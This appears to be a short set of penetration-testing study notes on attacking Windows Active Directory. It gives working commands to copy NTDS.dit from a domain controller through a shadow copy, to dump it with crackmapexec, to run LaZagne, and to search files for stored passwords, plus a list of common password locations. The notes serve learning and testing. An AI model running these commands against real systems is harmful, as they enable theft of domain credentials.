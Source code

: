 ## Active Directory

List of employees:

    Ben Williamson
    Bob Burgerstien
    Jim Stevenson
    Jill Johnson
    Jane Doe

We can use `Username Anarchy` to generate a username list:

## Capturing NTDS.dit

- Connect to the DC with Evil-WinRM
- Check localgroup membership
```
    net localgroup
    net user billybobjoel
```

If we have administrative rights, we can move along.

- Creating a shadow copy of C:
```
    vssadmin CREATE SHADOW /for=C:
    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit C:\NTDS.dit
```

Easier way with crackmapexec:
```bash
crackmapexec smb 10.10.100.103 -u johnjohnson -p 'P@ssword123!' --ntds
```

## Credential Hunting in Windows

Once we have access to the target, we can continue to search for other credentials:
`Lazagne` is a thrid-party application used to find weakly stored application passwords.
```
C:\Users\Bob\Desktop> start lazagne.exe all
```

Using `findstr`:
```
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

## Aditional Considerations

Here are some other places we should keep in mind when credential hunting:

    - Passwords in Group Policy in the SYSVOL share
    - Passwords in scripts in the SYSVOL share
    - Password in scripts on IT shares
    - Passwords in web.config files on dev machines and IT shares
    - unattend.xml
    - Passwords in the AD user or computer description fields
    - KeePass databases --> pull hash, crack and get loads of access.
    - Found on user systems and shares
    - Files such as pass.txt, passwords.docx, passwords.xlsx found on user systems, 
    shares, Sharepoint
